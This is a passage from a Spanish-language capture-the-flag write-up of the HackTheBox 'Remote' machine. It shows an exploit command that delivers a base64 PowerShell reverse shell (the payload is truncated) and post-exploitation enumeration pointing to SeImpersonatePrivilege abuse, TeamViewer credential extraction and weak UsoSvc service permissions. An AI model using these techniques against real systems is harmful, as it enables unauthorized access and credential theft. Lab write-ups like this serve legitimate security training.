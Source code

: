![Ejecución de comando whoami](images/exploit_2.png)

Haciendo uso de [Reverse Shell Generator](https://www.revshells.com/) se generó una reverse shell de powershell en base64 para entablar la conexión con:

```bash
python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-e JABjAGwAaQBlAG4AdAAg[...]'
```

![Reverse shell](images/exploit_3.png)

## Post Explotación

### Enumeración

Verificando los privilegios que se tienen con el usuario obtenido haciendo uso de:

```powershell
whoami /all
``` 

Se visualizó que el privilegio `SeImpersonatePrivilege` se encuentra habilitado, permitiendo su explotación haciendo uso de Rotten/JuicyPotato.

![SeImpersonatePrivilege habilitado](images/post_1.png)

Por medio de [winPEAS](https://github.com/carlospolop/PEASS-ng) se encontró que el servicio de `TeamViewer` se encuentra habilitado y ejecutándose. Concordando de alguna forma con el nombre de la máquina.

![Servicio TeamViewer habilitado](images/post_2.png)

Posteriormente, se realizó una búsqueda sobre los exploits disponibles sobre TeamViewer encontrando los siguientes.

![Exploits disponibles de TeamViewer](images/post_3.png)

En donde por curiosidad se tomó en consideración la exposición de credenciales y búscando más información al respecto se encontró el módulo de metasploit `windows/gather/credentials/teamviewer_passwords` y un [repositorio](https://github.com/zaphoxx/WatchTV) en conjunto con [su artículo](https://whynotsecurity.com/blog/teamviewer/) en donde se realiza una PoC para descifrar las credenciales alojadas en registros de Windows.

También dentro de la salida de `winPEAS` se visualiza que se cuenta con acceso completo al servicio `UsoSvc`, lo que permitiría modificar las opciones del servicio y detener o iniciar su ejecución.

![Permisos de servicio UsoSvc](images/post_4.png)

### Escalación de privilegios

#### iis apppool &rarr; nt authority system

##### TeamViewer
